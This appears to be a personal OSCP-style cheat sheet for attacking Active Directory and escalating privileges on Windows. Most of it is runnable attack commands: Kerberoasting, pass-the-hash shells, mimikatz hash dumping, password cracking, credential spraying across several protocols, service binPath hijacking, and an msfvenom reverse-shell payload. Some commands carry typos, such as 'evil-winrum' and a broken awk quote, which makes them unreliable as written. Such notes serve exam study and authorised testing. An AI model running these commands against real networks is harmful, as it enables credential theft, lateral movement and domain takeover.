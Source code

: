 # Active Directory
- https://www.youtube.com/watch?v=E6okxaSTl7M 
- Scan all TCP ports.
 Check LDAP, RPC, SMB with anonymous access. Check for public share.
- Find usernames. If you get access, look for usernames with things like nxc --rid-brute, --users, and enumdomuser with rpcclient to get list of users in domain without needing initial credentials. Check usernames with kerbrute.
- Test for ASREProasting after you have a username and password.
- Try authenticating with every possible protocol with those set of credentials: winrm, rdp, smb, rpc, ldap, etc
- Enumerate shares for every user you get access to. Every NEW user means you should recheck their shares.
- If you have share write access, upload a Evil Windows Library File, listen with Responder
- If you get shell as a user, check for privsec, and dump all hashes and collect them in a file for possible bruteforcing and lateral movement.
- Run BloodHound and check for basic attacks like DCsync. Check for other paths bloodhound may find.
- Check for dual homed machines, use ligolo-ng.
- Try brute forcing different protocols as you collect credentials. Remember to use NTLM authentication.
- Check UDP ports
- Re-scan if you get stuck and verify tools are working.

# Window Privesc
- Run PowerUp, then WinPEAS
- . .\PowerView.ps1; Invoke-AllChecks
- .\winPEASany.exe
- This will give you all info you need. Save output to a file and go over it slowly.
 
# Specific Techniques
## Kerberroast
.\Rubeus.exe kerberroast /outfile:hashes.txt    # windows
impacket-GetUserSPNs -dc-ip ip "my.domain/user:pass" -request

## Pass the Hash PtH / Get shell
Over SMB
impacket-psexec oscp.exam/administrator@192.168.1.1 -hashes :NTLM_HASH

Over WinRM TCP 5985/5986
evil-winrum -u Administraotr -H 'hash' -i 192.168.1.1 

Over RPC
impacket-wmiexec oscp.exam/administrator@192.168.1.1 -hashes :NTLM_HASH
impacket-wmiexec oscp.exam/administrator@192.168.1.1 -hashes LM_HASH:NTLM_HASH

## Clean up creds/hashes
awk 'NF {print $1}` dumped_hashes.txt | sort | uniq | tee unique_hashes.txt
john unique_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT

## bruteforce all hashes against all users
nxc smb 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc winrm 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc ldap 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success
nxc wmi 192.168.1.1 -u users.txt -H unique_hashes.txt --continue-on-success

mk.exe "privilege::debug" "lsadump::sam" "exit"

## Windows services
services
sc.exe config VMTools binPath="c:\Users\myuser\Documents\shell.exe"
sc.exe stop VMTools
sc.exe start VMTools


### Insecure Service Permissions
accesschk64.exe /accepteula -uwcqv daclsvc
accesschk64.exe /accepteula -uwqd "C:\Program Files\Unquoted Path Service\"
msfvenom -p windows/x64_shell_reverse_tcp LHOST=IP LPORT=443 -f exe > common.exe
copy c:\users\myusers\common.exe "C:\Program Files\Unquoted Path Service\common.exe"
sc.exe start  unquotedSVC 
